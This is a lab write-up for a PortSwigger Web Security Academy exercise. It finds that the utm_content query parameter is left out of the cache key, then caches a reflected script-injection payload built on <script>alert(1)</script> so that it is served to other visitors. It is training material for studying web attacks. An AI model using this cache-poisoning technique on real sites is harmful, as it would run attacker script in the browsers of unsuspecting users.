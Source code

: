 
# Web cache poisoning via an unkeyed query parameter

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser.

Hint: Websites often exclude certain UTM analytics parameters from the cache key.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/1.png)

---------------------------------------------


```
GET / HTTP/2
...
Pragma: x-get-cache-key
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/2.png)


```
GET /test=ing123
...
Pragma: x-get-cache-key
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/3.png)


Then I added headers for a cache buster and find "Origin" header is an oracle buster. We also see the query is reflected in the response:

```
GET /?test=ing123 HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.0a4b00720459a58f800058b200dc0063.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/4.png)

We could pop an alert with the payload:

```
GET /?test=ing123'/><script>alert(1)</script><link+href='/ 
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/5.png)


However, it is not possible to cache this for an attack, because this query parameter is keyed. We must find one query parameter that is not keyed:







![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/6.png)
![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/7.png)
![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/8.png)


We can add this parameter and see how it is not part of the response header “X-Cache-Key”:

```
GET /?test=ing123&utm_content=testing123 HTTP/2
...
Pragma: x-get-cache-key
Origin: 0a4b00720459a58f800058b200dc0063.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/9.png)


Then use the previous payload for this new parameter:

```
GET /?utm_content=testing123'/><script>alert(1)</script><link+href='/ HTTP/2
...
Pragma: x-get-cache-key
Origin: 0a4b00720459a58f800058b200dc0063.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/10.png)



Then again without the parameter, we see the same response with the alert(1):



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/11.png)


The with the payload and without the “Origin” header:



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/12.png)



And finally without the payload or the “Origin” header:



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20parameter/13.png)